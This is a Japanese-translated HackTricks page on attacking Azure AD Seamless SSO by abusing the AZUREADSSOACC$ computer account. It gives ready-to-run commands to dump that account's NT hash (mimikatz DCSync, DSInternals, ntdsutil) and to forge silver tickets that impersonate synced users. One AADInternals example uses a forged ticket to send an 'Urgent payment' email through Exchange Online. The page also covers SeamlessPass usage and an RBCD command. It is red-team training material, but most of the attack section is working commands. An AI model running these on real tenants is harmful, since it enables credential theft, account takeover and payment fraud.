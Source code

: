 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) は、**企業ネットワークに接続された企業デバイス上にいるときに自動的にユーザーをサインインさせます**。有効にすると、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく、通常はユーザー名を入力することさえありません**。この機能により、ユーザーは追加のオンプレミスコンポーネントなしで、クラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスのドメインに参加しているPC上にいるときにユーザーをサインインさせます**。

これは、[**PHS (Password Hash Sync)**](phs-password-hash-sync.md) と [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) の両方でサポートされています。

デスクトップSSOは、**Kerberos**を使用して認証を行います。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`というコンピュータアカウントを作成します**。`AZUREADSSOACC$`アカウントのパスワードは、構成中に**平文でAzure ADに送信されます**。

**Kerberosチケット**は、パスワードの**NTHash (MD4)**を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント** (https://autologon.microsoftazuread-sso.com) を公開しています。ドメイン参加マシンのブラウザは、SSOのためにこのエンドポイントにチケットを転送します。

### オンプレミス -> クラウド

ユーザーの**`AZUREADSSOACC$`のパスワードは**決して変更されません**。したがって、ドメイン管理者はこのアカウントの**ハッシュを危険にさらすことができ、次にそれを使用して**任意のオンプレミスユーザーと同期された**Azureに接続するための**シルバーチケットを作成できます**。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、**シルバーチケットを生成**できます：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **ブラウザを起動する:** Mozilla Firefoxを起動します。
2. **ブラウザを設定する:**
* **`about:config`**に移動します。
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)にします:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **ウェブアプリケーションにアクセスする:**
* 組織のAADドメインに統合されたウェブアプリケーションを訪問します。一般的な例は[Office 365](https://portal.office.com/)です。
4. **認証プロセス:**
* ログイン画面で、ユーザー名を入力し、パスワードフィールドは空白のままにします。
* 続行するには、TABまたはENTERを押します。

{% hint style="success" %}
これにより、MFAが有効な場合はバイパスされません
{% endhint %}

#### オプション2 dcsyncなし - SeamlessPass

この攻撃は、**dcsync攻撃なしで**よりステルスに実行することも可能です。これは[このブログ記事](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で説明されています。そのためには、次のいずれかが必要です:

* **侵害されたユーザーのTGT:** たとえ持っていなくても、ユーザーが侵害されていれば、[Kekeo](https://x.com/gentilkiwi/status/998219775485661184)や[Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)などの多くのツールに実装されている偽TGT委任トリックを使用して取得できます。
* **ゴールデンチケット**: KRBTGTキーがあれば、攻撃対象のユーザーに必要なTGTを作成できます。
* **侵害されたユーザーのNTLMハッシュまたはAESキー:** SeamlessPassは、この情報を使用してドメインコントローラーと通信し、TGTを生成します。
* **AZUREADSSOACC$アカウントのNTLMハッシュまたはAESキー:** この情報と攻撃対象のユーザーのセキュリティ識別子(SID)を使用して、サービスチケットを作成し、クラウドに認証することが可能です（前の方法で実行されたように）。

最後に、TGTを使用して、[**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)ツールを使用することができます:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

シームレスSSOでFirefoxを動作させるためのさらなる情報は、[**このブログ記事**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で見つけることができます。

#### ~~クラウド専用ユーザーのためのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーのSIDを設定することができます**。この方法でKerberos **チケット**は**クラウド専用ユーザーのためにも作成できます**。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用管理ユーザーのSIDの変更は現在**Microsoftによってブロックされています**。\
詳細は[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)を確認してください。
{% endhint %}

### オンプレミス -> クラウドへのリソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが存在するコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できる人は、**アカウントに対してリソースベースの制約付き委任を構成し、アクセスすることができます**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
